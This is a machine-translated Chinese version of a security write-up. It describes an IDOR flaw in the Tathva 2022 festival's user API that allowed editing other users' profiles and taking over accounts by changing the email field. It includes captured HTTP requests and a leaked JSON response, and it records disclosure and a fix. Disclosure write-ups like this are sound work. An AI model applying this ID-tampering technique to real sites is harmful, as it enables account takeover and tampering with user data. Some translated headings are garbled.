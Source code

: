 # 黑了南印度 Tathva 的 22 个最大的技术管理节

> 原文：<https://infosecwriteups.com/hacked-tathva-22-biggest-techno-management-fest-in-south-india-6a95435c82e7?source=collection_archive---------2----------------------->

- 7h3h4ckv157

![](img/db0ddcf43c7cf396b5bfa303034bf93e.png)

你好，信息安全伙伴ッ✋✋，

在这篇文章中，我分享了一个关于我如何黑掉南印度最大的技术管理盛会 Tathva 的小故事。

**(尼特卡利卡特技术管理节)**

*   它在每个工科学生的日程表中找到了自己的位置。南印度最大的技术创新和管理能力平台之一

## 关于窃听器

*   在我进入主题之前，让我告诉你关于 **IDOR** 的事情。围绕这个话题，现在有大量的博客和指导性练习。不过，我会提供一个简洁的说明。

## 不安全直接对象引用(IDOR)

*   这是一种访问控制(或授权)漏洞。
*   **访问控制:**指定是否允许用户执行他们想要完成的动作。
*   **IDOR** :当应用程序使用用户提供的输入来直接访问对象时。如果用户控制的参数值被用来直接访问资源或功能，它就可能被利用。

更多信息:

> [https://portswigger.net/web-security/access-control](https://portswigger.net/web-security/access-control)
> 
> [https://portswigger.net/web-security/access-control/idor](https://portswigger.net/web-security/access-control/idor)

## 1922 年在塔瓦的伊多

我的朋友[**Ranjul Aru madi**](https://github.com/Ranjul-Arumadi)指出了这个事件，并鼓励我参加网上夺旗比赛。注册后，我确保能够在以下网址编辑我的详细信息:

> [https://www.tathva.org/register?editprofile=true](https://www.tathva.org/register?editprofile=true)

我对安全很好奇。我在编辑个人资料时截获了这个请求，看到了一些有趣的东西。

```
**First request**OPTIONS /api/users/15862 HTTP/1.1
Host: api.tathva.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: authorization,content-type
Referer: [https://www.tathva.org/](https://www.tathva.org/)
Origin: [https://www.tathva.org](https://www.tathva.org)
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Sec-Gpc: 1
Te: trailers
Connection: close**Second request**PUT /api/users/15871 HTTP/1.1
Host: api.tathva.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authorization: 
Content-Length: 300
Origin: [https://www.tathva.org](https://www.tathva.org)
Referer: [https://www.tathva.org/](https://www.tathva.org/)
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Sec-Gpc: 1
Te: trailers
Connection: close{"id":15871,
"name":" ",
"gender":"male",
"college":" ",
"branch":" ",
"year":" ",
"state":" ",
"district":" ",
"phone":" "}
```

## 漏洞确认

你可以看到***"/API/users/<ID>"***顶部的请求。

这个 5 位数的<id>值可以手动更改，攻击者可以在其他用户不知情的情况下，对他们的详细信息进行返工。</id>

例如:

> 假设，攻击者的身份证号= 15860。
> 他/她/他们可以更改该值，并设置为任意五位数的随机值。所以，相应用户的详细信息会在他们不知情的情况下发生变化。

## 影响

*   **完整性** : **高**

> **完整性:**确保系统及其数据不会遭受未经授权的修改的能力。完整性保护不仅保护数据，还保护操作系统、应用程序和硬件不被未经授权的个人篡改。

## 概念验证:视频

## 账户接管

遇到这个漏洞后，我检查了请求的响应，发现了额外的东西。

```
**The Response**{"id":<ID>,
"username":<USER-NAME>",
"email":"<MAIL>",
"provider":"google",
"resetPasswordToken":null,
"confirmationToken":null,
"confirmed":true,
"blocked":false,
"name":"<NAME>",
"refCode":null,
"state":"<STATE>",
"district":"<DIS>",
"gender":"male",
"tathvaId":"T22-JSAVL",
"hostel":null,
"createdAt":"<DATE>",
"updatedAt":"<DATE>",
"phone":"<NUMBER>",
"college":"<COLLEGE>",
"year":"Year 4",
"branch":"any",
"registeredWorkshops":[],
"registeredEvents":[],
"registeredLectures":[],
"registeredCompetitions":[],
"bookedAccomodation":null,
"event_admin":null,
"event_volunteer":null,
"competition_admin":null,
"competition_volunteer":null,
"workshop_admin":null,
"workshop_volunteer":null,
"lecture_admin":null,
"lecture_volunteer":null}By simply editing**"email":"<MAIL>"** from the response itself, we can takeover the victim's account.Eg: change [victim@gmail.com](mailto:victim@gmail.com) to [attacker@gmail.com](mailto:attacker@gmail.com)The attacker can take control of the account through owned mails.
```

在该域上注册的所有用户帐户都变得易受攻击。

在为时已晚之前，我通过邮件和我的关系联系了他们。

*   报道时间:2022 年 10 月 20 日凌晨 1 点 05 分
*   修复确认:2022 年 10 月 22 日，晚上 11:44
*   赏金奖励:0 美元

快乐安全！

请随时与我联系并分享您的观点。你可以在这里找到我@[7h 3h 4 ckv 157](https://twitter.com/7h3h4ckv157)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！
